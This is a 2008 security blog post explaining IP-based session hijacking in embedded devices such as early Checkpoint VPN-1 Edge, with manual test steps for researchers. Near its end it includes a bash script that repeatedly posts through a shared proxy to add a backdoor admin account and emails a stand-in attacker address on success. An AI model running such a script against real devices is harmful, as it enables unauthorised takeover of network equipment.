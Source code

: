 ```yaml
---
title: Holes In Embedded Devices - IP-based session management
author: pagvac
date: Tue, 29 Jan 2008 10:39:22 GMT
template: post.pug
category: fucked
---
```


Devices that implement IP address-based session management follow the algorithm described by the pseudocode shown below:

    if (submitted username and submitted password) == (credentials on device config)
    then
        do white-list user's source IP address
    

    The implications are obvious: devices located in environments in which different users share the same proxy are vulnerable to administrative session hijacking attacks. Please note that this session hijacking attack has nothing to do with the classic TCP hijacking attack in which sequence numbers are predicted by the attacker. Therefore, attacking a device susceptible to a "IP address-based session management" vulnerability does not require the attacker to intercept/sniff the traffic between the victim admin user and the target device. Rather, this attack performs session hijacking at the _HTTP application layer_ by providing the piece of information that is used by the target device to "know" who has access to authenticated resources on the web console: a trusted source IP address in this case.

    As an example, let's consider a corporate environment in which hundreds of users share the same proxy while browsing the web. Now, let's imagine that the administrator of the vulnerable device never checked the _bypass proxy server for local addresses_ option on his/her web browser. In other words, the administrator usually configures the vulnerable device via a proxy which is used by everyone else in the network.

    The result is that any malicious user using the same proxy as the administrator of the target device, can gain full administrative access via the web console by simply adding the device's IP address on the browser's address bar. Of course this attack would be more realistic by automating the process of hijacking the admin session on the web console and performing a malicious/interesting operation. i.e: backdoor the device by adding a new administrative account.

    Early versions of Checkpoint VPN-1 Edge, suffer from this vulnerability. As any other webapp pentester I started analyzing HTTP requests after logging in to the web console of this appliance. I quickly realized that no session IDs had been assigned to my HTTP session, neither was my browser submitting my username and password via common methods such as HTTP basic authentication. There was nothing being sent by my browser that would tell the VPN-1 Edge appliance that I was supposed to have access to the administrative functionalities. This led me to suspect that the appliance was simply trusting my IP address while the session hadn't yet timed out. So I simply performed the following checks which in order to test the potential "IP address-based session management" vulnerability:

1.  Opened a completely different browser rather than a new tab or window of the same browser. i.e.: Opera rather than Firefox
2.  Entered the URL of an administrative menu (i.e.: `http://192.168.10.1/network_settings.cgi`) on Opera and checked if I had access to it

    > Note: in the previous example, both Firefox and Opera were connecting via the same proxy, thus submitting HTTP requests to the VPN-1 appliance from the same source IP address.

    Since the firewall kindly offered me all the administrative functionalities which allowed me to change settings, it was obvious that the device was vulnerable.

    However, at this point I needed to make sure that other IP addresses other than my current one could not access the admin features while the session was considered active (if this was possible the issue would be even more severe). Therefore I simply removed the proxy settings from my browser and tried accessing a URL that would return an administrative page on the device. Accessing the firewall's web console from a different IP address - in this case the one assigned to my workstation - did _not_ work. Therefore, it could be concluded that while the administrative session is considered active by the firewall (i.e.: has not timed out yet), the firewall simply trusts HTTP requests that come from the IP address that has been white-listed.

    Provided that the VPN-1 appliance had also trusted other source IP addresses, while the admin session was active, then the appliance would suffer from a binary state session management vulnerability which will be explained in my following post. Feel free to use the aforementioned test steps to test your appliance. I've seen several devices affected by this issue, so developers of embedded software and security researchers are recommended to add this vulnerability type to their security testing checklist!

    An aspect that is important to mention regarding "IP-based session management" holes is weather or not the affected device implements an idle session timeout period. In case a session timeout mechanism is implemented, the timeout period (i.e.: 10 minutes) matters a lot, as it defines the window of opportunity to launch a session hijacking attack.

    A possible technique that can be used to exploit short timeout periods consists of writing a script that attempts to perform a configuration change on the vulnerable device every X minutes, where X is smaller than the idle session timeout period of the vulnerable device.

    The following is a hypothetical bash script that would attempt to add a new account on the vulnerable device every 5 seconds:

    #!/bin/bash

    target="192.168.10.1";
    email="attacker@evil-domain.foo"

    while true
    do
        if curl -s -x sharedproxy.company.foo:3128 -d "operation=addaccount&usr=hax0r&pwd=s3cr3tP455" $target | grep "account added successfully" > /dev/null
        then
            // log successful pwnage!!
            mail $email -s "backdoor account added successfully"
            exit 1
        fi
        sleep 5
    done

_Enjoy playing with IP-based session hijacking attacks! As you can see they are trivial to launch once the attacker has enough details of the vulnerable device._
